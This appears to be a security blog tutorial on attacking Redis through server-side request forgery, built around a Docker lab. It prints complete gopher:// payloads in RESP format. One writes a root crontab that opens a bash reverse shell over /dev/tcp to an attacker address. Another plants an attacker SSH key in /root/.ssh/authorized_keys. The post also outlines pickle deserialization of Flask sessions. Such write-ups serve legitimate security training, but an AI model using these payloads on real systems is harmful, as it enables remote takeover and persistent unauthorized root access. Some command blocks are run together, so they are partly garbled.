# :globe_with_meridians: Exploiting Redis Through SSRF Attack

---

# Exploiting Redis Through SSRF Attack

Redis is an in-memory data structure store that is used to store data in the form of key-values and can be used as a database, serialized/session storage, cache, and job queue.



For example in Framework Django and Flask, Redis can be used as the session instance or in Gitlab using Redis as the Job queue.

Redis uses a `Text Based line protocol` so it can be accessed using `telnet` or `netcat` without the need for special software to access Redis instances, but Redis has an official client software called `redis-cli`.‌

Redis Support 2 types of command :

‌1. Non-RESP (REdis Serialization Protocol) format by using Space as a separator.




2. RESP format, this format is more recommended (because it is standard for Redis Request/Response ), besides that using this format will avoid syntax errors if there are special characters such as quotation marks ( “ ) in Redis request.







## Redis Command‌

## Redis Persistence

Redis stores data in memory, so when the server is restarted the data will be lost because RAM is volatile storage, to avoid this problem Redis has a Persistence feature, which will save data to the hard disk.

Redis provides two types of persistence :‌



- RDB (Redis Database Backup) which will save data to the hard disk every time the “`SAVE`” command is executed, and

- AOF (Append Only File) will save data to the hard disk every time it performs an operation (basically its function just like *Bash Shell* which saved command history to `.bash_history` every time the command is executed successfully).

Redis configuration parameters for persistence‌




AOF is not a good option to do file writing (In the context of SSRF in this blog post), because Redis does not allow AOF filename changes (by default: *appendonly.aof*) using the `CONFIG SET` command (during Runtime), but must be done directly by editing the file `redis.conf`.

## Redis Exploit

The last exploit to impact Redis was the *Redis EVAL Lua Sandbox Escape — CVE-2015–4335* discovered by Ben Murphy. However, this issue has been fixed from Redis version 2.8.21 and 3.0.2.‌

At the time of writing this blog post, there is no Exploit to directly get RCE on Redis instances, but attackers can take advantage of the “persistence” feature or maybe take advantage of Unsafe Serialization from the related application so that it can be used as a technique to get RCE. Also, there is “[Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)” discovered Pavel Toporkov to get RCE on Redis Instance.

## Redis Vs HTTP

Redis and HTTP are both Text-Based Protocols, so HTTP can be used to access Redis, but because it has the potential to cause security issues, since the release of *Redis 3.2.7* which makes *HTTP Header* `HOST` and `POST` as aliases for the *QUIT* command and then logs with messages “*Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.*” is generated to Redis log.




*Koneksi Redis terputus apabila command diawali dengan POST atau HOST:*

If you want to force HTTP to communicate with Redis ≥ *3.2.7*, you need SSRF (GET Method) + CRLF Injection in the GET parameter section. In order to avoid the *POST*, and CRLF Injection keywords, the *HOST* Header will be in a position after the Redis command.‌

Trivia: Alias POST to QUIT was created based on a suggestion from a member of the news.ycombinator.com forum, *geocar*.



‌

## Lab Setup

```
$ git clone [https://github.com/rhamaa/Web-Hacking-Lab.git](https://github.com/rhamaa/Web-Hacking-Lab.git)$ cd SSRF_REDIS_LAB$ docker-compose build && docker-compose up‌



```

## Lab Information

*SSRF Lab Web*

>

Every Payload generated by [payload_redis.py](https://github.com/rhamaa/Web-Hacking-Lab/blob/master/SSRF_REDIS_LAB/payload_redis.py) in this blog post, will be input as a URL in the SSRF Lab Web, so there is no need for screenshots of the attack process to the Lab. This information is given so that there is no confusion about how to attack.

By default, Redis runs with the low privilege of being the user ‘redis’. In the Lab, we used root privileges to be able to write crontab and authorized_key ssh, because the user ‘redis’ does not have permission to write to both files.‌

## Redis And SSRF

## Redis — Cron‌

Cron is a task scheduler on Linux, cron will execute the command that is set using the `crontab` command periodically according to the set time.

Cron stores crontab files in `/var/spool/cron/<Username>` (Centos), `/var/spool/cron/crontabs/<Username>` (Ubuntu) and System Wide crontabs are in `/etc/crontabs`.‌



The lab will use 2 different OS because there is a slight difference in behavior between cron on Centos and Ubuntu.

```
$ python payload_redis.py cronReverse IP >Port >Centos/Ubuntu (Default Centos)gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2477%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20/bin/bash%20-c%20%27sh%20-i%20%3E%26%20/dev/tcp/b%27XXX.XXX.XXX.XXX%27/8080%200%3E%261%27%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A‌
```

Ubuntu Lab‌

Redis will write the file with 0644 permission, while the crontab file on ubuntu is expected to have 0600 permission so it will give a warning in the system log.




In addition, there are *dummy* data in the *Redis RDB* file which causes cron to ignore the crontab file because there is invalid syntax, so even if the crontab file has *0600* permissions it will not be executed.




*Cron Syntax Error*

>

Writing crontab files with Redis through SSRF will not work properly in Ubuntu , because crontab files in Ubuntu are expected to have 0600 permission to be executable and clean of dummy data that cause syntax errors.

Centos Lab

## Get Muh. Fani Akbar’s stories in your inbox

Join Medium for free to get updates from this writer.



Remember me for faster sign in

On Centos even though the crontab file has permissions 0644 and there is dummy data, cron will still be executed so that it can get a reverse shell.




## Redis — SSH Public Key

‌Authorized_keys is used to store a list of SSH public keys so that users log in using the SSH private-public key pair instead of a password. Authorized_keys are located in `$HOME/.ssh/authorized_keys`

If `$HOME/.ssh/authorized_keys` is writable, this can be used to store the attacker’s SSH keys.

```
$ python payload_redis.py sshgopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%24403%0D%0A%0D%0A%0D%0Assh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABAQDc4B6PTML3xiqId/qw8cJkPmwSbtdOsAS2IGUUk1ifRHZsdfgcFvj7fzMFo1ydGAOuZcGPeT838LQ3R8ruWe4B788Q5ZKRO6CZSoEmqs4FWuCz7QvwWu9%2B2kMH/6gUvVQAQNYD2RACXgJcCAm77bg/WHZfgGJYNtOKDUf%2B0V1ku%2B/h8ijsQJdkuk5Zr7w1xjOdigLs8ST7MivptfYGvbnh/XUk3Y2EfyoACmW0MpcnthdLL3s/8SOs5exekRNYYU9rn74itibDHlsYvukBtKhW/XOAPZ3T38qDf7PJyqPoOl%2BAQ8AaFwIBVfE7V1mPRCqZLkG97SRjMy1V9dhTgG4h%20rhama%40Inspiron-7472%0D%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2410%0D%0A/root/.ssh%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2415%0D%0Aauthorized_keys%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A====================================================After payload executed, try ssh root@server_hostname====================================================
```

Both Ubuntu and Centos Lab ssh can be accessed even though dummy data is present.




*SSH ke Ubuntu Lab*

## Redis As Session Storage

Backend servers often time use Redis as Session Storage, in the Redis web lab session storage will focus on exploiting *Unsafe Serialialization*, because *Sessions* are usually in the form of objects, and so that these objects can be stored to Redis, Session objects must be converted into strings. The process of converting objects into strings is called “*Serialization*” and the process of converting strings into objects is called “*Deserialization*”.



The lab implements *Redis as Session Storage* using sample snippets from [Server-side Sessions with Redis](http://flask.pocoo.org/snippets/75/) and *Pickle* is used as *Serializer*, pickle is known to be insecure and can be exploited to get RCE.




The attack flow is quite simple, we only need to change the session value with the Payload Pickle through SSRF. According to the logic in the source code, the session will be serialized and base64 encoded.

To be able to change the session value stored in Redis, you need a Key name, in this lab, the session will be stored with the name `session:<session_id>`




*Inspecting Stored Value In Redis Using redis-cli*

We can see the Session-Id using the default web browser features called developer tools




Trivia: Flask Internal

When the request is about to end or when the views return, Flask will internally call the `finalize_request` method, then in the `finalize_request` method there is another call to the `process_response` method which calls `save_session` from the `session_interface` class, the `save_session` method will save the value of the session (in the context of this blog post, the session value will be saved to Redis).

Why is this information important? because when we try to change the value of the flask session in Redis through SSRF, the value we managed to change through SSRF earlier will be overwritten back with the original value.

---
